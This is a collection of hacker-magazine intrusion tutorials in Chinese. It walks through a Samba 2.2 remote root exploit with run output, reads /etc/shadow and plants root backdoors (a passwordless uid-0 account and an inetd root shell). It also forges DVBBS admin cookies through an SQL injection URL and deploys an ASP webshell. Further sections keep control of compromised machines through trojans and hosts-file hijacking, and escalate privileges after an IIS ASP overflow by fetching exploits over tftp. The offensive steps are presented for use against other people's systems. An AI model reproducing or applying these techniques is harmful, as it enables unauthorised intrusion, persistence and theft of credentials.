关于如何入侵 Unix/Linux 系统，许多朋友都感觉很困难。他们总认为，入侵 Unix/Linux 系统，是高手才能办到的事。其实不然，这主要是因为他们对 Unix/Linux 系统不太了解。在《X 档案》以前的杂志中也曾介绍过如何入侵 SunOS 系统，此次，我向各位详细介绍一下如何利用 samba 2.2.* 存在的一个远程溢出漏洞来入侵 Linux 系统，该漏洞也是最近才公布的。

### 一、Samba 漏洞简介

Samba 是基于 SMB 协议的一个应用程序，是款开放源代码的自由软件，可以说是目前在 Unix/Linux 上实现资源共享所普遍使用的一个服务组件。不仅如此，使用 Samba 服务还可实现 Unix/Linux 与 Windows 之间的文件及打印共享。

目前，广泛使用的是 Samba 服务组件版本 2.2.*。Samba-TNG 是由 Samba 衍生的版本，相当于 Windows NT domain 控制器。可就是在前些日子，应该是 Webdav 与 Windows RPC Locator 远程溢出被公布差不多的时间，samba 2.2.* 组件也被公布存在着很严重的远程溢出漏洞。大致原因是 Samba 程序对输入没有进行正确的边界缓冲区检查，导致存在缓冲溢出漏洞，可使攻击者轻易地远程夺取 root 权限，而相应的攻击程序在网上也可找到。该漏洞主要是针对 Samba 2.2.* 组件，因此安装并使用了该组件的 Unix/Linux 系统都有被溢出的可能。

### 二、Samba 溢出程序

下面让我们来看一下具体的入侵步骤。所有的操作我是在 Win2000 下进行的，目标主机为一台 Linux 系统。如果我们下载的攻击测试程序是 C 源代码的话，在 Linux 环境下使用 GCC 编译，就可在 Linux 系统下使用。由于本次实验是在 Win2000 下进行的，所以在 Win2000 下就是使用 CYGWIN 之类的工具，通过这类工具把 For Linux 的 C 源程序转换成 Win2000 下的 EXE 可执行程序。

下面，我们首先执行一次这个已经编译成 EXE 的入侵程序看看。大家都知道，一般直接执行某个基于 CMD 命令提示符的程序，我们就可得到它的详细使用说明。

```txt
G:\hacker\0x333samba\0x333samba>0x333samba

[*] 0x333hate => samba 2.2.x remote root exploit [*]
[*]     code by c0wboy  www.0x333.org             [*]

Usage: 0x333samba [-t target] [-p port] [-h]
-t    target to attack            // 攻击目标
-p    samba port <default 139>    // samba 溢出端口（缺省为 139 端口）
-h    display this help           // 显示帮助
```

### 三、Samba 漏洞扫描技巧及利用

通过上面的帮助可看出这个程序的使用很简单，参数很少，用过溢出程序的新手几分钟就可学会。不过，在进行溢出前还有一个关键问题，就是如何寻找提供 samba 服务的 Linux 主机。


其实，在溢出程序的说明中已经提到了解决办法，就是“samba port <default 139>”这句话。原来 samba 缺省的端口是 139，我们只需扫描开放 139 端口的 Linux 系统就可以了。看到这儿，或许有许多朋友已经迫不及待地打开 x-scan、superscan 什么的，填上 139 端口，开始狂扫了。如果你真这样做了，实在是很不明智的。熟悉 Windows 的朋友一定知道，大多数 Windows 系统都会开放 139 端口，而开放 139 端口的 Unix/Linux 系统的数量远比 Windows 少。因此，这样扫到的系统绝大多数都是 Windows 系统。那么，如何才能更快、更准确地找到目标主机呢？以前我在《X 档案》也曾写过一篇关于如何判断目标主机操作系统的文章，上边就提到了利用特定端口来寻找。因此，这次我们同样可使用这个方法。

像 22（ssh）、111（SunRPC）、513（rlogin）、514（rsh）、515、6000 等端口一样，通常只有 Unix/Linux 系统才会开放。因此，我们在扫描端口时，可选择 22、111、139、513、514、515、6000。这样，如果目标主机既开放 22 端口又开放 139 端口，或既开放 111 端口又开放 139 端口等，那么对方极可能是提供了 Samba 服务的 Unix/Linux 系统，图 1 就是我扫描到的一台 Linux 主机。

OK！目标已找到，我们就开始来溢出吧！

```txt
G:\hacker\0x333samba\0x333samba -t 61.13.XXX.XXX -p 139

[*] 0x333hate => samba 2.2.x remote root exploit [*]
[*]     code by c0wboy  www.0x333.org             [*]

[-] connecting to 61.13.1.49:139
[-] starting bruteforce

[-] testing 0xbfffffff
[-] testing 0xbffffdff
[-] testing 0xbffffbff
[-] testing 0xbffff9ff
[-] testing 0xbffff7ff
Linux sunsweet 2.4.20 #20 Mon Mar 17 22:55:24 PST 2003 i586 unknown
uid=0(root) gid=0(root) groups=99(nogroup),98(nobody)
```

程序在测试到“0xbffff7ff”这个地址时，溢出就成功了，而且直接是 root 权限，就像 Windows 下的 Administrator 一样。接下来的第一件事是查看当前登录到系统的用户都有哪些？如果有系统管理员的话，那可不妙（图 2）。


```txt
w  // 这个命令的作用是查看当前登录进系统的用户
22:10:26 up 2 days, 5:37, 0 users, load average: 0.00, 0.00, 0.00
USER    TTY      FROM           LOGIN@   IDLE   JCPU  PCPU WHAT
```

通过图 2 可以看出一个人也没有，那我们就可放心地在里边操作了。虽然没有命令提示符，但并不影响我们的操作。接下来我们查看一下对方的进程，看看都运行了什么？

```bash
ps -ax //查看系统运行的进程
PID TTY TIME CMD
1 ? 00:00:04 init
2 ? 00:00:00 keventd
3 ? 00:00:00 ksoftirqd_CPU0
4 ? 00:00:00 kswapd
5 ? 00:00:00 bdflush
6 ? 00:00:00 kupdated
11 ? 00:00:00 mdrecoveryd
77 ? 00:00:00 eth0
89 ? 00:00:00 klogd
94 ? 00:00:00 sshd
106 ? 00:00:00 crond
153 ? 00:00:00 master
160 ? 00:00:00 gpm
163 ? 00:00:00 miniserv.pl
164 ? 00:00:00 safe_mysqld
175 ? 00:00:00 squid
11961 ? 00:00:00 syslogd
11965 ? 00:00:00 inetd
3260 ? 00:00:00 smbd
3262 ? 00:00:00 nmbd
5969 ? 00:00:00 sh
5974 ? 00:00:00 ps
```

在 Unix/Linux 系统中，用户密码是被保存在 /etc/shadow 文件中的，让我们来看一下目标用户的用户密码。

```bash
cat /etc/shadow //显示 shadow 文件的内容，类似 WINDOWS 中的 TYPE 命令。
```

图 3 则是执行后的结果，如果想破解的话，把 shadow 文件复制下来，用 john 破就可以了。不过我对这个还不感兴趣，所以就没有下对方的 shadow 文件。


图 3

### 四、留下后门

接下来，我将几种后门的制作方法简单地介绍一下。

- 1. `cp /bin/bash /usr/man/sagi.sh` //复制文件命令，和 Windows 下的 copy 类似

bash 是 Linux 系统中的一个 shell 解释程序，和 DOS 下的 command.com 类似。

我将其复制到了 /usr/man 目录下，并改名为 sagi.sh。此时，sagi.sh 文件的权限为 755，我重新修改了它的权限。

- 2. `chmod 777 sagi.sh` //关于 chmod 的详细使用，请参见 2002 年第 5 期的《X 档案》。

此时，sagi.sh 已经可以被任何人执行了。我们只需拥有一个普通权限的帐号，登录进系统后执行 sagi.sh，就会立刻拥有 root 权限。这是 Unix/Linux 系统中最常用的一种后门制作方法，唯一的缺点是我们必须得先拥有一个帐号，才能登录进系统去执行这个文件。

- 3. 在 Windows 中，如果我们得到了 Administrator 权限，通常会添加一个后门帐号。让我们来看一下如何在 Linux 系统中添加帐号。

```bash
echo "www:x:0:0::/:/bin/sh" >> /etc/passwd
和 windows 下的 echo 用法类似
echo "www::::::" >> /etc/shadow
```

如图 4，这样我们就添加了一个 www 且不需要密码的帐号，而且是 root 权限。


图 4


图 5


图 6

## 一个人的战争

通过 `cat /etc/passwd` 及 `cat /etc/shadow` 我们可清楚地看到刚才添加的帐号 WWW 了（图 5、图 6）。这种后门制作起来很简单，但缺点是很不隐蔽，管理员只需查看 passwd 及 shadow 文件就会立刻发觉。

这就像在 Windows 中通过 `net user` 及 `net localgroup administrators` 就可轻易发现被入侵者添加的帐号一样。

- 4. 我们再来做一个 inetd 的守护进程后门。

```bash
bash
echo ingreslock stream tcp nowait root /bin/bash
bash -i > /usr/man/hh
```

使用 echo 制作一个文件 hh，并保存在 /usr/man 目录下。在执行时碰到了一点小麻烦，执行 `/usr/sbin/inetd -d /usr/man/hh` 后，居然提示说没有找到文件，怎么可能？难道没有 inetd？我又看了看开始我们所列出的进程，inetd 明明执行得好好的。我只好转到 sbin 目录下去执行。

```bash
inetd -d /usr/man/hh
```

这次系统执行成功，已经在 1524 端口悄悄打开了一个监听（图 7），让我们在 Windows 下使用 telnet 连接一下。

```bash
G:\hacker>telnet 61.13.1.49 1524
```

登录画面见图 8，直接出现 bash 的提示符，而且此时权限为 root，甚至不用回答账号及口令，比 Windows 中的 TELNET 后门还要方便。这个后门虽然更方便，但也极不安全，管理员只需使用 nmap 或 netstat 检测自己的系统就会发现这个陌生的端口。


图 7


图 8

### 五、结束

其实通过已经编译好的工具来入侵并不是一件难事，本文的关键之处在于如何寻找有 Samba 漏洞的主机。好了，这次的入侵先写到这儿吧，希望各位朋友看后能对 Linux 稍微了解一点！

## 入侵动网 6.0 的 cookie 构造问题

> （注：文中的方法适用于使用 Access 的论坛）

动网 6.0 的漏洞出来已经有段时间了，相信很多朋友也都利用过该漏洞做了不少“好事”吧（帮管理员删删帖子什么的 ^_^）！

很多人在入侵过程中，通过提交下面这个地址来获得 password：

```text
http://www.target.com/asp/dvbbs/tongji.asp?orders=2&N=2%20userpassword,
```

### 注：末尾的逗号不能少

然后再对经过 MD5 加密的密码进行暴力破解或字典破解。其实，只要大家仔细阅读了 PsKey 发表的关于动网漏洞的文章就不难发现，我们还可以通过构造 cookie 来使用管理员身份进行登录。（详见光盘中收集的《动网论坛(DVBBS)存在严重漏洞》）。

那么我们如何构造一个管理员的 cookie 呢？

首先，要在攻击的论坛上注册一个用户，然后进入该用户的控制面板，设置一下用户的基本资料。在这里，有关用户 cookie 的设置，我们选择保存一天。当然，如果你愿意，选择保存一年也无所谓，只要不选择“不保留”就好（图 1）。

接下来，保存设置并退出。


图 1

然后，我们要做的就是修改 cookie。来到本地磁盘 `C:\Documents and Settings\Administrator\Cookies`（假设系统安装在 C 盘，并且当前使用计算机的用户名为 administrator）。在这里，找到刚才保存的 cookie（最简单的方法就是根据 cookie 的生成时间来查找）。然后，我们打开这个 cookie（图 2）。这里，我们需要构造的有以下几项：username、userclass、userid、password。除了 userclass 外，其他几个值我们都可通过提交如下的 URL 请求来获得：

```text
http://www.target.com/asp/dvbbs/tongji.asp?orders=2&N=2%20xxx,
```

（调整 N 的值，另外，将 xxx 修改为要查询的内容，例如 userid）


图 2

这样，我们通过对比就可得到一个管理员的 username、userid 和经过 MD5 加密的 password，现在只差 userclass 了。

这样，我们需要的值都有了。OK！我们现在将得到的值替换成我们自己的 cookie，然后保存，再重新登录论坛，然后……嘿嘿，随便你了。

> LOOK 注意：使用这种方法不破解管理员的密码就可以管理员的身份登录论坛，但如果想更进一步入侵主机（这样的话需要登录到后台），使用这个方法并不是太好的选择。因为即使我们能以管理员身份登录论坛的前台，也无法获得后台的管理员密码。

这篇文章只简单介绍了一下思路，难免有不够详细的地方。

## 黑客利器 SqlRootkit

### 紫幻

今天，我给大家带来一个黑客工具中的极品——ASP 程序一个。唉呀！是谁拿臭鸡蛋砸我脑袋（回头一看，有一个拿了一筐臭鸡蛋的菜鸟在我身后）？拿臭鸡蛋的菜鸟对我说：“不要占用《黑客 X 档案》的宝贵篇幅，ASP 木马在《黑客 X 档案》都刊登过 N 次了。”

我一脸委屈地说：“大…大…大…哥，我冤枉啊！我这个和一般的 ASP 木马可不一样，它可通过 80 端口在对方主机上执行任何命令。只要是在 Win2k 上，cmd 能执行的命令它都可以执行，就连建立用户名和提升为管理员都可以，而且可以穿透目前绝大多数防火墙。其身材娇小，只有 2K 左右。”

拿臭鸡蛋的菜鸟说：“哦？这么强大？听你这么一说简直成了‘杀人灭口，居家旅行的必备良品？’那你就快介绍这个 ASP 程序吧。要是慢了点，我这一筐臭鸡蛋都砸在你脑袋上。”

我说：“那…那…那好吧，不过你千万别再扔了啊！我一身全是名牌，你弄脏了赔不起（看来这年头当个作者也不好混呀）。”

小菜鸟怒气冲冲地说：“还废话是不是？我看你这身破名牌也是不想要了，不要啰嗦了唐僧，赶快介绍。”

OK！以上和大家开了一个小玩笑。下面就给大家详细讲解 Sqlrootkit。

想起大家在扫描时都遇到过 sql 的 sa 空口令吧？以前是不是都使用 xp_cmdshell 来远程执行命令啊？不过这样做缺点很多。比如对方设置了防火墙，你就不可以执行命令了。还有，大家在平时 hacking 时，是不是都遇到过后门被对方管理员发现或被对方的杀毒软件 kill 呢？有了 Sqlrootkit，这些问题都可迎刃而解。

### 一、配置

该 ASP 文件只有 2K 大小，配置非常简单。把这个 ASP 文件用记事本打开，找到 `"Password=server;User ID=sa"` 这段代码。其中的 password 就是漏洞主机的 Sql 口令，ID=sa 是对方 Sql 的 admin 帐号。只要把这段代码改成对应主机的用户名、密码，就一切 OK。

### 二、实战

我用流光扫描到 210.xxx.xxx.xxx 主机的 sa 存在空口令，直接把代码修改后上传到对方的 web 目录下，然后用浏览器打开。如图 1。


图 1

以上就是 Sqlrootkit 的主界面，看上去是不是有点像 cmd.asp？呵呵，它的功能要比 cmd.asp 强很多呢！我用它执行了三个命令，请看图 2、图 3 和图 4。


图 2


图 3


图 4

以上 3 个命令大家都能看懂吧？怎么样？该程序可通过 80 端口添加用户，并且可提升到管理员组去。是不是很强大？

Sqlrootkit 的功能还多着呢！假设我们想开启对方的 telnet 服务，直接可使用 `net start telnet`（图 5）。

## 一个人的战争


图 5

呵呵！通过 80 端口已经做到了开启 telnet 服务。以前是不是不敢想象？Sqlrootkit 还可以做许多事情，比如用 tftp 上传文件。

**注意：** 用 Sqlrootkit 上传的文件直接就传到了 system32 目录下。

以上是介绍对方存在 sa 空口令的利用。其实 Sqlrootkit 还可配合其他漏洞做个超级后门。假设使用现在最前卫的漏洞“Webdav”拿到了对方的权限，对方又安装了 Sql server，就可把它上传到对方的 web 目录（一般都在 `c:\inetpub\wwwroot`），这样，我们就可在远程执行命令了。不需其他任何程序，想做什么就做什么！

目前这个 ASP 程序不被任何杀毒软件查杀。要是换成大型网站或虚拟主机，那就更隐蔽了。

一般把该程序随便改个名字隐藏在一个很深的文件夹，就算是累死对方的管理员也是查不到的，岂不是成了超级后门了吗？

### 三、解决办法

相信广大的网管朋友看了这个程序一定很恐怖。不要害怕，我已经研究出解决 Sqlrootkit 的办法。Sqlrootkit 是通过 Sql 的 sa 帐号来远程执行系统程序，以达到以上目的。只要不给 sa 或 Sql server 的 admin 帐户执行系统命令，就可使 SqlRootkit 失效。

### 四、注意问题

- 1. 使用该程序查看文件格式，一定要用 **dir c:\ 文件夹** 来查看；
- 2. 一定要获得漏洞主机的 sql server 帐号、admin 权限 ID 和密码才可使用；
- 3. Sqlrootkit 不仅可执行以上我提到的命令，也可当跳板使用。可以用 telnet 其他肉鸡，也可用 **net use \\ip\\ipc$ "username" /user:"password"** 来连接其他主机。

（注：本文中的 sqlrootkit 在光盘中有收录）


## 肉鸡追踪

雪蓬蓬

肉鸡踪迹全无的事情相信大家都遇到过，除开后门被发现导致肉鸡重新安装操作系统或被别人夺走的可能外，最有可能的就是肉鸡的 IP 地址不稳定。笔者也有一批肉鸡，2M 光纤的线路速度飞快，这样的肉鸡应该是不错的。但这批肉鸡有个怪毛病，他们会突然在某天玩一个“乾坤大挪移”，一时间 IP 全换（还好我的肉鸡的 IP 再怎么换都在一个固定的 IP 段里）。

在第 N 次头痛后，笔者总结出了肉鸡追踪术，在以后的日子里笔者应用此术追踪肉鸡，屡获成功！现在，我就把此术介绍给大家。

### 一、Server Name 篇

**中心思想：** 利用 NET-BIOS 特性取得对方服务器名，从而判断是否为丢失的肉鸡。

- **使用工具：** 月光搜索-追捕版
- **操作平台：** Win9X

在全球每个地区都会使用一个范围的 IP，在一个地区内又会更加详细地划分 IP 使用范围。说简单点，就是一个城市使用的 IP 范围就那么多，肉鸡 IP 再怎么变动只能在这个范围内。好了，现在我们开始！

控制住肉鸡后，记住他的用户名以及组名。在这里我记录下的用户名是：foxfish，组名是：thr-color。在后来的日子里使用月光搜索-追捕版扫描肉鸡所在 IP 范围（图 1）。


图 1

看见了吗！始终找得到他。

缺点：此方法非常简单，但需对方开放 139 端口，并要熟悉 IP 分配的范围。

### 二、端口篇

**中心思想：** 利用扫描特定的端口，从而判断是否为丢失的肉鸡。

- **使用工具：** SuperScan
- **操作平台：** Win9X/Win2000/WinXP

PC 的端口范围是 1~65535，除去常用的一些端口外，还有将近上万个端口可自己定义，下面我们来谈谈如何打开特定的标志端口。

CMD 下面可使用 Winshell 来安装后门，后门端口可在配置过程中自定义。这里，在 Winshell 的配置过程中我定义端口 2048（图 2）。


图 2

上传肉鸡运行后，使用 SuperScan 扫描 2048 端口，结果如图 3。


图 3

在图形界面下，你可使用现有的服务来开端口。以 WEB 服务为例，你可新建一个站点，将端口设置为特定的标志端口，在 Win2000 Server 上依次执行：开始→程序→管理工具→计算机管理→服务和应用程序→Internet 信息服务→默认的 web 站点→鼠标右键→新建站点→下一步→说明（随便输入）→下一步→这里输入端口（图 4）。


然后根据提示继续下一步，直到完成即可。

当然你也可以使用 Winshell 来打开特定的标志端口！我们的最终目的只有一个，就是打开一个不是普遍使用的端口来做我们的标志端口，从而识别我们的肉鸡。

> 缺点：细心的管理员会发现开启了陌生的端口。

### 三、域名篇

中心思想：利用动态主机的域名注册，快速定位肉鸡目前的 IP。  
使用工具：CN99QDNS  
操作平台：Win9X/Win2000/WinXP

登录网站 `www.3322.org`，按提示注册成功后登录管理页面。选择“动态域名→新建→根据提示创建一个新的动态域名”。我创建了一个 `XUELP.3322.ORG` 的域名（图 5）。


在 `http://www.3322.org/dyndnspage/setup.zip` 处下载域名的客户端 `SETUP.ZIP`（光盘中也有收录），并保存在肉鸡上（肉鸡应能在图形界面下操作）。解开 `SETUP.ZIP`，双击 `SETUP.EXE` 文件，一路确定默认安装好客户端。

从“开始→程序→CN99QDNS→SN99QDNS”运行客户端设置程序（图 6）。

在管理账号页面中的域名处填入刚申请的域名：`XUELP.3322.ORG`，在用户名和密码处填入注册的用户名和密码。填写完毕后，点“增加”将配置添加到已注册账号中去（图 7）。


再进入参数设置页面，将“启动断线侦测”选上（这里我选择 10 分钟侦测一次），如图 8。

一切设置完成后，点“确定”就可以了。以后不管肉鸡的 IP 怎么变，通过 PING 域名 `XUELP.3322.ORG` 就可找到肉鸡的 IP 了。哪怕肉鸡中途掉线，10 分钟后我们就可找到它新的 IP。


> 缺点：在桌面右下角的系统托盘中会出现一个红色的心形图标，很熟眼，管理员很有可能发现。

## 一个人的战争

### 四、木马篇

中心思想：利用反弹型木马连接本地机器，从而确定肉鸡目前的 IP。  
使用工具：灰鸽子  
操作平台：Win9X/Win2000/WinXP

谁说木马没什么用？用木马来定位肉鸡效果确实不错。像网络神偷、灰鸽子等木马就有这个功能，这里我们就用灰鸽子来做说明吧！

首先按域名篇的流程申请一个动态域名，并安装在自己的机器上。下载一个灰鸽子，运行 `H_Client.exe`，然后进入配置服务端界面。在连接类型栏选择自动上线型（这里我们还是以域名 `XUELP.3322.ORG` 为例），在 DNS 域名解析里填入 `XUELP.3322.ORG`。其余的全部默认，点击“生成服务器”按钮生成服务端程序（图 9）。

上传生成的服务端程序到肉鸡并运行，等不了一会儿，肉鸡就自动来报到了（图 10）。


> 缺点：本身利用的是木马，很有可能被杀毒软件查杀。

### 五、浏览器篇

中心思想：让肉鸡的浏览器连接本地主机，通过察看本地 WEB 日志，掌握肉鸡目前的 IP。  
使用工具：IE 浏览器、WEB 服务、一台固定 IP 的服务器  
操作平台：Win9X/Win2000/WinXP

每个使用 IE 浏览器的朋友都知道，IE 浏览器有个默认网页的设置。它在浏览器

## 一个人的战争

运行后会自动打开初始的设置页面。IIS 里微软提供了架设 Web 服务的功能，同时所有访问该 Web 服务的 IP 都会被记录下来。下面我们就来谈谈怎么样利用浏览器找肉鸡（肉鸡系统以 Win2000 为例）！

在固定 IP 服务器上（202.xx.xx.xx）安装 Web 服务，一切默认即可。设置所有访问的 IP 全部转向到 www.caiker.net（图 11）。

登录肉鸡后打开 C:\WinNT\System32\drivers\etc\hosts 文件，在 `127.0.0.1 localhost` 下面一行添加 `202.xx.xx.xx www.caiker.net`（其中 202.xx.xx.xx 是固定 IP 的服务器，我们已设置所有访问它的请求全部会转向到 www.caiker.net。所以，肉鸡这时是没一点怀疑的地方），添加完后保存文件。以后只要肉鸡访问 www.caiker.net，都会在固定 IP 的服务器留下痕迹。


图 11

通过检查固定 IP 服务器的 Web 日志，我们可很快找到我们的肉鸡了。Web 日志如图 12。从图中可看出都是肉鸡留下的痕迹。


图 12

缺点：此方法使用前必须要先确定肉鸡喜欢浏览哪些网站，找一个肉鸡喜欢浏览的网站，写入 hosts 文件里。这样，你对它的控制将完全不留痕迹。最怕的就是你没找对肉鸡喜欢的站点，那么有可能很久也收不到肉鸡的消息哦！

### 六、简单总结

类似的方法还有很多。比如修改肉鸡 IE 浏览器的默认页面，让他指向你自己的 Web 服务器，每次肉鸡打开 IE 都会访问你一下。再通过本地 Web 记录查看也是一样的道理。

总之，写出这几种方法算是抛砖引玉的过程吧！希望大家能有更好的办法。

## 一次 ASP 漏洞权限提升实战

ASP 漏洞被公布于 2002 年，可以说是继 UNICODE、.PRINTER 以及 IDA&IDQ 漏洞之后被发现的又一个严重安全漏洞。但因为该漏洞对于 Win2000（IIS5.0）只能得到 GUEST 权限，对于 WinNT（IIS4.0）才能得到 SYSTEM 权限，所以一直不被小菜们所看好。关于该漏洞的原理描述，我不想多讲，在网上我们可以找到许多相关信息。

对于 ASP 漏洞的远程入侵，国内普遍使用的是 YUANGE 的 aspcode.exe，在前几期的《X 档案》上有过详细介绍。由于该漏洞只能得到一个 GUEST 权限，所以本文重点在于如何利用该漏洞提升权限——前期我积累了一些资料，也咨询了一些朋友，似乎可看出提升权限的方法还是有一些。不过，思路归思路，技术这东西还得亲自实践一下才好。下面就为大家描述我的一次权限提升过程。

### 一、权限初试

这一步大家可参考 2003 年 4 期《黑客 X 档案》中“黑客研究院”的介绍，我只简单讲一下。首先我们扫描到这个漏洞的 IP，然后拿出我们的武器 aspcode 来溢出，详细执行如下：

```txt
G:\hacker\win2000\asp>aspcode

IIS ASP.DLL OVERFLOW PROGRAM 2.0

copy by yuange 2002.4.24.
welcome to my homepage http://yuange.yeah.net
welcome to http://www.nsfocus.com

usage: aspcode <server> [aspfile] [webport] [winxp]

please enter the web server:61.177.*.* //键入存在漏洞嫌疑的 IP 地址

please enter the asp filename:iisstart.asp //键入 IIS 自带的 ASP 文件——iisstart.asp，其实如果在这儿什么也不输入
```

直接回车的话，也是可以的，程序默认也是 iisstart.asp。

```txt
...asp file name:iisstart.asp

nuke ip: 61.177.*.* port 80
shellcode long 0x13e7

packetlong:0x13e7

send packet 71825 bytes.
recv:
C:\INETPUB\WWWROOT\IISSTART.ASP
ok!recv 8 bytes //这里表示溢出成功
```

溢出成功了，如图 1。敲几个回车就可以看到如下提示：

```txt
Microsoft Windows 2000 [Version 5.00.2195]
<C> 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>
```


图 1

成功得到一个 CMD SHELL，让我们来看一下我们现在的权限有多大：

```txt
C:\WINNT\system32>
net user sagi 135790 /add
C:\WINNT\system32>net user sagi 135790 /add
系统发生 5 错误。
拒绝访问。
```

从图 2 大家可看出来，目前我们只有 GUEST 权限，接下来就是想尽办法提升自己的权限。因为我们现在只是 GUEST 权限，利用 IPC$ 连接来实现文件的上传显然是不可能的。


虽然是 GUEST 权限，但我们也要试一试有没有写权限，下面我在 shell 下键入如下命令看看：

```txt
C:\WINNT\system32>echo aaa > aaa.bat
```

居然提示成功了！看来我们是有写权限的。由于对方管理员的粗心，他并没有将系统目录设置成只有 Administrator 才能读写，这也是 Win2000 默认安装后的设置。现在好办多了，我想到了 TFTPD32 这个上传/下载工具。在我的机器上启动 TFTPD32，即把我的电脑做成一个 TFTP 服务器，因为我要上传的一些程序与 TFTPD32 在同一目录下，所以就不必再重新设置路径了，启动后就可以了。

默认的 69 端口已经开始处于监听状态了（图 3）。


接下来，我利用 TFTP 从我的电脑上下载了 winwmiex.exe 文件。winwmiex.exe 是一个本地溢出程序，针对 Win2000 SP0-3 成功率很高，我在 Win2000 Pro 上做测试时，都是一次就溢出成功。溢出成功后，winwmiex.exe 会自动在系统中添加一个具有 Administrator 权限的后门帐号。

首先把 winwmiex 从我的机器上下载到目标机器。

```txt
C:\WINNT\system32>tftp -i 61.*.*.135 GET winwmiex.exe
tftp: -i 61.*.*.135 GET winwmiex.exe
```

在 TFTPD32 的界面中也可清楚看到对方服务器端口所发送的连接及下载请求，出现“<winwmiex.exe> 发送 337 个数据块，172077 字节，用时 77 秒...”的提示，表明下载成功了！在 CMD SHELL 中敲一下回车，就会看到“Transfer successful: 172077 bytes in 77 seconds, 2234 bytes/s”的下载成功提示（图 4）。


### 二、winwmiex 提升第一次

不知什么原因，刚下载完毕，连接就被断开，只好重新进行溢出，然后执行 winwmiex.exe 文件，执行情况如图 5。


winwmiex.exe 执行了，但图 5 中的信息显示溢出并没有成功。如果溢出成功，就可看到“如果你可以看到这行，那么溢出极有可能已经成功了”这句话提示。至此，winwmiex 提权第一次失败。

### 三、debug 提升第二次失败上传

winwmiex 失败，接下来我从兵器库里拿出另一个工具来试试——针对 debug 漏洞的 RunAsX.exe 程序。

```txt
C:\WINNT\system32>
tftp -i 61.*.*.135 GET ERunAsX.dll
tftp: can't write to local file 'ERunAsX.dll'
```

如图 6 所示，ERunAsX.dll 文件居然上传不成功。ERunAsX.exe 还上传成功的呢！


真气人，怎么办？本来想把 DLL 后缀改改，看是不是管理员设置了什么策略，想来不大可能。不过，我对这个本地溢出程序并没有抱太大的希望，因为 python 曾对我讲过，这个程序只能在图形界面下使用，就算我传上来，也是 CMD 命令提示符，看来没有意义。第 2 次意外失败。

### 四、峰回路转第三次

两个本地溢出程序都失败了，放弃吗？

NO！我静下来想了想，突然想到了用于攻击 UNICODE 漏洞的 ISPC 及 idq.dll。关于 UNICODE 的原理早在 2000 年网上就有介绍了，在这儿我就不多说。不过，就以攻击 UNICODE 所普遍使用的工具 ISPC.EXE 及 IDQ.DLL，我倒是想稍微说一下。我感觉使用这两个工具进行攻击 UNICODE 时，其实 UNICODE 漏洞在整个攻击过程中所起的作用也仅仅是可以成功上传特定的 IDQ.DLL 文件而已，实际上攻击所使用的应该是 IDQ.DLL 文件所存在的一个溢出漏洞，不知道我的认为是不是对的。

好了，转到正题上，既然我们可以成功上传文件，那么上传 idq.dll，然后再使用 ISPC 进行连接不是可以吗？我越想越感觉成功的希望很大。

在上传文件前，还有点儿事情要做：在对方的 \winnt\system32 目录下也有个 idq.dll 文件。为了上传成功，我先将对方系统中的 idq.dll 改名保存。如果不改名，上传的 IDQ.DLL 会覆盖原来系统中存在的那个 IDQ.DLL 文件，我感觉也不会影响我们正常的溢出，但为了上传及溢出的成功率，我建议将系统中原有的 IDQ.DLL 文件改名保存一下。

```txt
C:\WINNT\system32>

ren idq.dll idd.dll

C:\WINNT\system32>
C:\WINNT\system32>
tftp -i 61.*.*.135 GET idq.dll
C:\WINNT\system32>tftp -i 61.*.*.135 GET idq.dll

Transfer successful: 32768 bytes in 14 seconds, 2340 bytes/s
```

idq.dll 终于上传成功了，TFTPD32 中也提示文件下载成功了（图 7）。


接着要做的就是将 idq.dll 复制到 scripts 目录下，我想将 IDQ.DLL 复制到其他一些目录应该也是可以的，如 MSADC、WWWROOT、VTI_BIN 等。不过，因为 SCRIPTS 目录 IIS 默认的权限为“脚本及可执行程序”，所以将 IDQ.DLL 复制到这类目录下，连接的成功性会更高一些。不过，在其他目录下是否会成功，我倒是没有做过测试，如果各位有兴趣，不妨一试。如图 8 所示，最关键的就是看 ISPC 的连接是否成功。我又在本地开了一个 CMD 窗口，进行连接。


yeah！连接成功了，我又查看了一下对方的帐号（图 9），习惯性地加了个帐号，看看我现在拥有的权限有多大！

如图 10 所示，我终于得到了对方的 Administrator 权限。


最后我又查看了一下对方系统中拥有 Administrator 权限的帐号，我添加的那个 sagi 帐号已经在里边了（图 11）。

至此，整个入侵过程结束。我终于使用 ASP 漏洞得到了入侵者最想要得到的东西——系统的最高控制权限。看了看电脑时间，已是深夜 1 点钟了呢，真的好累好困呀！


### 五、一点心得

说实在的，本文并没有什么高深的东西，所使用的工具也都是旧的，相信许多朋友的电脑中都保存着。当然，如果你真的没有，文章中提到的 aspcode、winwmiex.exe、TFTPD32、RunAsX.exe、ISPC.EXE 及 IDQ.DLL 可以在光盘中找到。我之所以能成功，是因为方法的原因。

希望许多小菜看了本文后，对于一些教程的掌握及工具的使用能够有一个崭新的认识。换句话说，这一次我是利用 ASP 漏洞来提升权限的，那么下一次如果出了新的只能得到 GUEST 权限的漏洞，你会不会活学活用呢？或者是又出了别的新本地溢出程序，你会不会灵活使用呢？这才是最重要的！

## 一种通用的 SQL Injection 攻击方法

SQL Injection 是一个描述将 SQL 代码传递到一个并不被开发人员所想要的应用程序中的专业术语。SQL Injection 攻击通俗讲，就是通过 hacker 精心构造 SQL 语句在原有的 Web 程序（像论坛、留言本）里执行，达到获取主机权限、用户密码等信息，从而实现 80 端口的入侵。SQL Injection 攻击因构造 SQL 的语句不同、被入侵主机的系统或 Web 程序不同，方法也是多种多样。但我在这里总结出一种通用的 SQL Injection 攻击方法，简单实用，那就是 SQL Injection with Access 的跨表子查询。

### 实例破解——动网文章系统

我们还是先看实例，然后再来总结。动网文章是一款由 WWW.ASPSKY.NET 开发和维护的源代码开放的文章管理系统，在国内使用非常广泛；由于其 list.asp 文件没有过滤用户提交传递给 SQL 查询的输入，导致远程攻击者可以用这个漏洞进行 SQL 注入攻击。

试看动文章系统 list.asp 中的相关代码：

```txt
sql="select Aclass.class,ANclass.Nclass,article.title,article.classid,article.Nclassid from article,Aclass,ANclass where article.classid=Aclass.classid and article.Nclassid=ANclass.Nclassid and article.articleID="&request("id")
```

不懂 ASP 的菜鸟好像头有点大了，没事，我来解析一下。动网文章用的数据库名是 article.mdb，用 access2000 打开后，看到图 1 所示的界面。


图 1 中的 aclass、admin、anclass、article 都是 article.mdb 的表名。其中 article 表存放的是文章（图 2）。


admin 表存放的是动网文章管理员名称和密码（图 3）。


